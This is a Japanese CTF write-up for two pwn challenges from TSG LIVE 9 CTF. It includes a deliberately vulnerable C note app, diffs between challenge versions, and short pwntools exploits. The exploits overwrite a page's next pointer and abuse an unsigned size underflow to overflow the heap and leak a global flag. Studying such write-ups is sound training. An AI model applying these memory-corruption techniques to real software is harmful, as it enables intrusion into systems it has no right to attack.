 # 結果
2022/11/19に行われたTSG LIVE 9 CTFに、Float Lariatとして出てきました。
頑張って、頑張った結果、一位を取れました。嬉しいね。

僕が解いた問題は

- LoseLeaf(pwn)
- LooseLeaf(pwn)

の二問だけなんでその解説します。

## LoseLeaf(pwn)

以下のソースコードと、バイナリが渡されます。

checksec
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```



<details>
<summary>ソースコード</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

#define N_NOTES 10
#define BUF_SIZE 40

char flag[100]; // Can you read me?

typedef struct Page {
    struct Page *next;
    char content[];
} Page;
Page *notes[N_NOTES];

void die(const char *msg) {
    puts(msg);
    exit(1);
}

unsigned get_int() {
    unsigned x;
    scanf("%u", &x);
    return x;
}

void readn(char *buf, unsigned size) {
    unsigned cnt = 0;
    for (unsigned i = 0; i < size; i++) {
        unsigned x = read(0, buf + i, 1);
        cnt += x;
        if (x != 1 || buf[cnt - 1] == '\n') break;
    }
    if (cnt == 0) exit(-1);
    if (buf[cnt - 1] == '\n') buf[cnt - 1] = '\x00';
}

void init() {
    alarm(60);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

unsigned get_note_index(const char* msg) {
    printf("%s: ", msg);
    unsigned idx = get_int();
    if (idx >= N_NOTES) die("invalid choice");
    return idx;
}

unsigned page_menu() {
    puts("1. add page");
    puts("2. delete page");
    puts("3. back to main menu");
    printf("> ");
    return get_int();
}

unsigned main_menu() {
    puts("1. modify note");
    puts("2. concat notes");
    puts("3. print note");
    printf("> ");
    return get_int();
}

void add_page(unsigned note_idx) {
    printf("index: ");
    unsigned idx = get_int();

    Page **cur = &notes[note_idx];
    for (int i = 0; i < idx; i++) {
        if (*cur == NULL) die("invalid index");
        cur = &(*cur)->next;
    }
    Page *next = *cur;

    printf("size: ");
    unsigned size = get_int();
    Page *page = (Page *)malloc(size + 8);
    page->next = next;
    printf("data: ");
    readn(page, size);
    *cur = page;
}

void delete_page(unsigned note_idx) {
    printf("index: ");
    unsigned idx = get_int();

    Page **cur = &notes[note_idx];
    for (int i = 0; i < idx; i++) {
        if (*cur == NULL) die("invalid index");
        cur = &(*cur)->next;
    }
    if (*cur == NULL) die("invalid index");
    Page *next = (*cur)->next;
    free(*cur);
    *cur = next;
}

void page_main(unsigned note_idx) {
    while (1) {
        switch (page_menu()) {
            case 1:
                add_page(note_idx); break;
            case 2:
                delete_page(note_idx); break;
            default:
                return;
        }
    }
}

void concat_notes(unsigned idx1, unsigned idx2, unsigned idx3) {
    notes[idx3] = notes[idx1];
    Page **cur = &notes[idx3];
    while(*cur != NULL) {
        cur = &(*cur)->next;
    }
    *cur = notes[idx2];
    notes[idx1] = NULL;
    notes[idx2] = NULL;
}

void print_note(unsigned idx) {
    Page **cur = &notes[idx];
    while(*cur != NULL) {
        printf("%s\n", (*cur)->content);
        puts("\n------------\n"); 
        cur = &(*cur)->next;
    }
}
    
int main(void) {
    init();
    unsigned idx1, idx2, idx3;
    int fd = open("flag.txt", O_RDONLY);
    int r = read(fd, flag, 99);
    if (r <= 0) die("ask admin");
    close(fd);
    while (1) {
        switch (main_menu()) {
            case 1:
                page_main(get_note_index("note index")); break;
            case 2: 
                idx1 = get_note_index("note index 1");
                idx2 = get_note_index("note index 2");
                idx3 = get_note_index("note index 3");
                concat_notes(idx1, idx2, idx3); break;
            case 3:
                print_note(get_note_index("note index")); break;
            default:
                return 0;
        }
    }
    return 0;
}
```

</details>

簡単なメモアプリっぽいですね。
グローバルな `notes` に先頭ポインタが40個入っていて、そこから next を手繰っていくアプリケーションです。

さて、この問題はpwn全三問シリーズの一問目で、二問目はこの問題のセキュリティにパッチを当てたらしいことが仄めかされています。そこで diff を使ってソースコードを比較することにしました。

diff
```
85c85
<     readn(page, size);
---
>     readn(page->content, size);
```

add_page 内の readn が修正されているようです。上の場合、page に入力が入るので、nextが変更できてしまうことがわかります。これではいけませんね。
ということで、入力にflagが入ったポインタ-8を入れ、contentがflagを指すようにしたところ、取れました。

exploit.py
```python
io.sendline(b'0')
io.sendline(b'1')
io.sendline(b'0')
io.sendline(str(0x20).encode())
io.sendline(pack(binary.symbols['flag'] - 8))
```

あとはこれで index=0 を print します。

## LooseLeaf(pwn)

checksec
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

同じように二問目と三問目でdiffを取ると、

```
81a82
>     if (size > 0x500) die("your buffer is too big");
```

何やらサイズチェックが入っているのがわかります。

mallocに入れる値だからチェックしても変わらなさそうだなぁと思いつつよく見てみると、sizeの型がunsignedなことに気が付きます。

もし `size = get_int()` が -8 を返してきた場合、unsigned な型に入るので、オーバーフローして 4294967288 になります。

size + 8 は 0 なので、malloc は 適当なポインタを取ってきますが、readn に渡される size が大きいので、ヒープのバッファオーバーフローが発生します。

その操作を broken_alloc として、

```
idx0 = alloc(0x8)
deallocate(idx0) // tcache(0x8) -> idx0

idx1 = alloc(0x100)
idx2 = broken_alloc() // tcache(0x8)
``

の順番で操作をすると、broken_alloc で取ってきた下の領域に alloc(1) のデータがあるので、next を flag - 8 にして print すれば取れます。

exploit.py
```python
modify_note(0)
add_page(0, 0x8, b'normal1')
delete_page(0)
add_page(0, 0x100, b'big!')

add_page(0, ctypes.c_uint32(-8).value, pack(0xdeadbeef) + pack(0xcafebabe) + pack(0x11111111) + pack(binary.symbols['flag'] - 8))
```

# 感想
自明な脆弱性からちょっと一手間で解ける感じの問題で楽しかった。
LoooseLeft(3問目)も通したかった
